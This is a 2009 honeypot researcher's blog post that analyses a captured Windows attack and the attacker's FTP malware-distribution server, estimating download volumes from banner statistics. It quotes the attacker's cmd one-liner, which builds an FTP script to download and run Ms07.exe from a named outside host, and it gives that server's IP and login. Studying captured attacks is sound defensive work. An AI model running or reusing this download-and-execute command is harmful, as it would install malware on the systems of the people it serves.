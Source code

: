 ```yaml
---
title: "Iteolih: If you can't touch it ..."
date: "2009-07-21"
tags: 
  - "ftp"
  - "iteolih-d90"
---
```


While playing with the current hsoc code, I got attacked, and saw an offer to download something from somewhere.  
`  
cmd /c echo open v1.usbupdatestrings.at 4356 > i&echo user ik ik >> i &echo binary >> i &echo get Ms07.exe >> i &echo quit >> i &ftp -n -s:i &Ms07.exe  
`  
The offer to download something was not that unexpected, we are working hard to get these offers, so we can grab copies of something, but the location was interesting. Obviously they decided to go for a central service to deploy their malware, and to indicate that level of professionalism on first sight, they use(d) a domain.  
  
To honor their effort, I decided to give them a visit ...  
  
`  
lftp ftp://ik:ik@v1.usbupdatestrings.at:4356  
`  
To allow having a look on the whole traffic, I decided to run lftp in debug mode  
`  
lftp ik@v1.usbupdatestrings.at:~> debug  
`  
And connect the service  
`  
lftp ik@v1.usbupdatestrings.at:~> ls  
---- Connecting to v1.usbupdatestrings.at (79.99.6.123) port 4356  
<--- 220-Serv-U FTP Server v5.0 for WinSock ready...  
<--- 220-.:::::::::::::::::::::::::::::::::::::::::::::::::.  
<--- 220-.::::|  
<--- 220-.::::| o0o-====== pe[ro =======-o0o  
<--- 220-.::::|________________________________________  
<--- 220-.:::::::::::::::::::::::::::::::::::::::::::::::::.  
<--- 220-.::::|  
<--- 220-.::::| o0o-========= USER STATS =========-o0o  
<--- 220-.::::|  
<--- 220-.::::| You are Connecting From 'The great Tor Network'  
<--- 220-.::::| 231352 users have visited in the last 24 hours  
<--- 220-.::::| This server has been running for  
<--- 220-.::::|14 Days, 1 Hours, 0 Mins, 43 Secs  
<--- 220-.::::|  
<--- 220-.::::|Amout of Logins Since Server Started: 1020885 total  
<--- 220-.::::| o0o-======== SERVER STATS ========-o0o  
<--- 220-.::::|  
<--- 220-.::::| Logged in Users: 52  
<--- 220-.::::| Total Kb downloaded: 60855849 Kb  
<--- 220-.::::| Total Kb uploaded: 1132 Kb  
<--- 220-.::::| Amout of Files downloaded: 731839  
<--- 220-.::::| Amout of Files uploaded: 11  
<--- 220-.::::| Average Speed: 50.161 Kb/sec  
<--- 220-.::::| Current Speed: 323.925 Kb/sec  
<--- 220-.::::| Free Disk Space: 92367.79 MB  
<--- 220-.::::|________________________________________  
<--- 220 .:::::::::::::::::::::::::::::::::::::::::::::  
`  
  
_If you can't touch it, you have to count it_, I appreciate the decision to share these numbers with everybody connecting.  
  
Today, I wanted to give them a new shot, fresh numbers, so I could compare the numbers to see if they seem reliable.  
For some reason the domain v1.usbupdatestrings.at is gone already, but the service was still running on the same ip.  
  
`  
<--- 220-.::::| o0o-========= USER STATS =========-o0o  
<--- 220-.::::|  
<--- 220-.::::| You are Connecting From 'The great Tor Network'  
<--- 220-.::::| 169188 users have visited in the last 24 hours  
<--- 220-.::::| This server has been running for  
<--- 220-.::::|14 Days, 21 Hours, 32 Mins, 28 Secs  
<--- 220-.::::|  
<--- 220-.::::|Amout of Logins Since Server Started: 1144533 total  
<--- 220-.::::| o0o-======== SERVER STATS ========-o0o  
<--- 220-.::::|  
<--- 220-.::::| Logged in Users: 7  
<--- 220-.::::| Total Kb downloaded: 66602829 Kb  
<--- 220-.::::| Total Kb uploaded: 1524 Kb  
<--- 220-.::::| Amout of Files downloaded: 804645  
<--- 220-.::::| Amout of Files uploaded: 16  
<--- 220-.::::| Average Speed: 51.746 Kb/sec  
<--- 220-.::::| Current Speed: 45.348 Kb/sec  
<--- 220-.::::| Free Disk Space: 92367.55 MB  
<--- 220-.::::|________________________________________  
<--- 220 .:::::::::::::::::::::::::::::::::::::::::::::  
`  
  
So, within 20hours, their ftp service had:  

  
- Amout of Logins (1144533 - 1020885) = **123648**
  
- Amout of Files downloaded (804645 - 731839) = **72806**
  
- Amout of Files uploaded (16 - 11) = 5
  
- Total Kb downloaded (66602829 - 60855849) = **5746980** (5612 Mbyte)
  

  
  
Getting copies of the malware from the service and submit them to virustotal, to verify if the five malware updates during the last 20 hours were worth the effort, is left as an exercise for the reader.
